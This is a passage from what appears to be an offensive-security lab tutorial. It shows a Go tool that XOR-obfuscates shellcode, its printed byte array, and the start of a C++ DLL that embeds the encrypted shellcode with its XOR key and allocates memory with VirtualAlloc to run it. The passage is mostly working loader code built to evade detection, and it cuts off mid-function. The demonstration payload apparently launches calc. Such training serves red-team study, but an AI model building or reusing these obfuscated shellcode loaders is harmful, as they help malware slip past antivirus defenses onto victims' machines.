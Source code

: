 ```go
	// Print the closing brace and a final newline
	fmt.Println("\n};")

}

```

**NOTE:** I'm not going to provide a code breakdown here since it's very simple + I've added extensive comments at just about every step to explain what's being done.


## Results: Offline Obfuscator

After running this application the new output we should place in our DLL will be printed to terminal in the format we require.
```shell
go run .
unsigned char calc_shellcode[] = {
0x8E, 0xFC, 0x92, 0x8D, 0x88, 0xFA, 0x95, 0xB4, 0xBE, 0xF7, 0xA8, 0xBD, 0xBF, 0xC1, 0xA3, 
0x8A, 0x87, 0xE5, 0x43, 0x32, 0xF6, 0xC8, 0x88, 0x55, 0xEC, 0xE5, 0x4B, 0xA8, 0xC6, 0xE5, 
0x4B, 0xA8, 0xCE, 0xE5, 0x6D, 0x96, 0x55, 0x9D, 0x88, 0x55, 0xA0, 0x9D, 0xC3, 0x89, 0xE2, 
0x26, 0x9C, 0xC9, 0xF6, 0x26, 0xB4, 0xC1, 0xFE, 0xE5, 0xC1, 0x20, 0x55, 0xF9, 0xDF, 0xFA, 
0xD1, 0x1A, 0xEC, 0xC9, 0x53, 0xFF, 0xC2, 0x73, 0x5F, 0x91, 0xC7, 0x89, 0xB7, 0xC3, 0x85, 
0xAB, 0x31, 0x26, 0xB4, 0xC1, 0xC2, 0xE5, 0xC1, 0x20, 0x55, 0x99, 0x6E, 0x96, 0xDF, 0x5A, 
0x59, 0x21, 0x09, 0xE5, 0x43, 0x1A, 0xEE, 0xF0, 0x9F, 0x80, 0x85, 0xF7, 0x99, 0x86, 0x1D, 
};
```


## Code: Updated calc_dll.cpp

We can now now add our new obfuscated shellcode + decryption function to our DLL. Let's pick up from the code exactly as it following Lab 9.1.

```go
#include <windows.h>

// NEW ENCRYPTED SHELLCODE C+P HERE
unsigned char calc_shellcode[] = {
0x8E, 0xFC, 0x92, 0x8D, 0x88, 0xFA, 0x95, 0xB4, 0xBE, 0xF7, 0xA8, 0xBD, 0xBF, 0xC1, 0xA3,
0x8A, 0x87, 0xE5, 0x43, 0x32, 0xF6, 0xC8, 0x88, 0x55, 0xEC, 0xE5, 0x4B, 0xA8, 0xC6, 0xE5,
0x4B, 0xA8, 0xCE, 0xE5, 0x6D, 0x96, 0x55, 0x9D, 0x88, 0x55, 0xA0, 0x9D, 0xC3, 0x89, 0xE2,
0x26, 0x9C, 0xC9, 0xF6, 0x26, 0xB4, 0xC1, 0xFE, 0xE5, 0xC1, 0x20, 0x55, 0xF9, 0xDF, 0xFA,
0xD1, 0x1A, 0xEC, 0xC9, 0x53, 0xFF, 0xC2, 0x73, 0x5F, 0x91, 0xC7, 0x89, 0xB7, 0xC3, 0x85,
0xAB, 0x31, 0x26, 0xB4, 0xC1, 0xC2, 0xE5, 0xC1, 0x20, 0x55, 0x99, 0x6E, 0x96, 0xDF, 0x5A,
0x59, 0x21, 0x09, 0xE5, 0x43, 0x1A, 0xEE, 0xF0, 0x9F, 0x80, 0x85, 0xF7, 0x99, 0x86, 0x1D,
};


BOOL ExecuteShellcode() {
	DWORD oldProtect = 0;

    // Define the XOR key used for encryption
    unsigned char xor_key[] = { 0xDE, 0xAD, 0xC0, 0xDE };
    size_t key_len = sizeof(xor_key);


    void* exec_memory = VirtualAlloc(NULL, sizeof(calc_shellcode),
                                     MEM_COMMIT | MEM_RESERVE,
                                     PAGE_READWRITE);

    if (exec_memory == NULL) {
        return FALSE;
    }

```